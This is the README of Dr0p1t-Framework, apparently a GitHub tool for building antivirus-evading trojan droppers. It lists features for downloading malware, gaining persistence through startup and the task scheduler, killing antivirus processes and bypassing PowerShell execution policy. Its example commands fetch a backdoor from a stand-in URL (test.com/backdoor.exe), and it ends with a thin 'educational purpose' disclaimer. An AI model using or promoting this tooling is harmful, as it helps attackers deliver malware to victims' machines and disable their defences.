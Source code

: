 # Dr0p1t-Framework (beta version) [![Python 3.5](https://img.shields.io/badge/Python-3.5-yellow.svg)](http://www.python.org/download/)

Have you ever heard about trojan droppers ? you can read about them from [here](https://blog.malwarebytes.com/threats/trojan-dropper/).

Dr0p1t let you create dropper like any tool but this time FUD with some tricks ;)

#Features
- Works with Windows and Linux
- Adding malware after downloading it to startup
- Adding malware after downloading it to task scheduler
- Finding and killing the antivirus before running the malware
- Running a custom (batch|powershell|vbs) file you have choosen before running the malware
- In running powershell scripts it can bypass execution policy
- Using UPX to compress the dropper after creating it
- Choose an icon for the dropper after creating it

#Screenshots
##On Windows
<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Windows/Random2.JPG" width="55%"></img>

<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Windows/Random1.JPG" width="40%"></img>
<img src="https://github.com/D4Vinci/Dr0p1t-Framework/raw/master/Screenshots/Windows/Help_msg.JPG" width="35%"></img>
##On Linux (Backbox)
<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Linux/Random1.JPG" width="55%"></img>

<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Linux/Random2.JPG" width="40%"></img>
<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Linux/Help_msg.JPG" width="35%"></img>

###Help menu
```
Usage: Dr0p1t.py Malware_Url [Options]

options:
  -h, --help   show this help message and exit
  -s           Add your malware to startup (Persistence)
  -t           Add your malware to task scheduler (Persistence)
  -k           Kill antivirus process before running your malware.
  -b           Run this batch script before running your malware. Check scripts folder
  -p           Run this powershell script before running your malware. Check scripts folder
  -v           Run this vbs script before running your malware. Check scripts folder
  --only32     Download your malware for 32 bit devices only
  --only64     Download your malware for 64 bit devices only
  --upx        Use UPX to compress the final file.
  -i           Use icon to the final file. Check icons folder.
  -q           Stay quite ( no banner )
  -u           Check for updates
  -nd          Display less output information
```
###Examples
```
./Dr0p1t.py https://test.com/backdoor.exe -s -t -k --upx
./Dr0p1t.py https://test.com/backdoor.exe -k -b block_online_scan.bat --only32
./Dr0p1t.py https://test.com/backdoor.exe -s -t -k -p Enable_PSRemoting.ps1
```
#Prerequisites
- Python 3.x( prefered 3.5 )
- Python libraries requirements in requirements.txt

#Installation
First download it by
```
git clone https://github.com/D4Vinci/Dr0p1t-Framework
```
if you are on linux and do
```
cd Dr0p1t-Framework
pip install -r requirements.txt
./Dr0p1t.py
```
And if you are on windows download it and then do
```
cd Dr0p1t-Framework
pip install -r requirements.txt
pip install -r windows_requirements.txt
./Dr0p1t.py
```
Libraries in windows_requirements.txt are used to enable unicodes in windows which will make coloring possible :smile:


##Todo
- Python 2 support
- Work on UAC bypass
- More modules

##Disclaimer
Dr0p1t Framework not responsible for misuse and for illegal purposes.Use it only for work or educational purpose !!!

> Pull requests are always welcomed :)

#Much more features to come!
